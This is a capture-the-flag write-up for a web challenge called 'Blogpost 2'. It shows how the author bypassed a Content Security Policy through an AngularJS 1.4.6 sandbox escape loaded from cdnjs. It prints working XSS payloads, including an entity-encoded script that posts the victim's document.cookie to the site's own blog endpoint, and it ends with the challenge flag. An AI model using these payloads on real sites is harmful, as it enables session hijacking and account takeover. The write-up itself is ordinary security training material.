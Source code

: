# Blogpost 2

### Description

Look out for my blog posts, again!!

# Solution

### Content Security Policy Bypass

I tried my previous payload, but XSS doesnt work due to CSP. So most likely I would have to bypass this.

![](-1.png)

The Content Security Policy is this

```
script-src 'self' 'unsafe-eval' 'https://cdnjs.cloudflare.com'
```


For any concept I'm unsure about, I tried to find a related Hacktricks resource

```js
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>
```

https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass

![](Images/0.png)

![](Images/1.png)

## 2. Exploit

After some experimentation, I settled on this payload

```html
<span id=payload>
&Tab;&dollar;&period;ajax&lpar;&lcub;&NewLine;&Tab;&Tab;type&colon; &quot;POST&quot;&comma;&NewLine;&Tab;&Tab;url&colon; &quot;&sol;post&quot;&comma;&NewLine;&Tab;&Tab;data&colon; JSON&period;stringify&lpar;&lcub;&quot;title&quot;&colon;&quot;Cookie&quot;&comma; &quot;content&quot;&colon;document&period;cookie&rcub;&rpar;&comma;&NewLine;&Tab;&Tab;dataType&colon; &quot;json&quot;&comma;&NewLine;&Tab;&Tab;contentType &colon; &quot;application&sol;json&quot;&NewLine;&Tab;&rcub;&rpar;&period;done&lpar;function&lpar;response&rpar;&lcub;&NewLine;&Tab;&Tab;if &lpar;response&period;message &equals;&equals; &quot;Success&quot;&rpar;&lcub;&NewLine;&Tab;&Tab;&Tab;window&period;location&period;href &equals; &quot;&sol;blog&quot;&semi;&NewLine;&Tab;&Tab;&rcub;&NewLine;&Tab;&Tab;else &lcub;&NewLine;&Tab;&Tab;&Tab;console&period;log&lpar;response&period;message&rpar;&semi;&NewLine;&Tab;&Tab;&rcub;&NewLine;&Tab;&rcub;&rpar;&semi;
</span>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };eval(document.getElementById("payload").innerText);//');}} </div>
```


![](Images/2.png)

# Flag

`STF22{cl0uDfl4r3!!_@nd_@ngu1ar_ar3_de_b35+}`

3rd solver

![](score.png)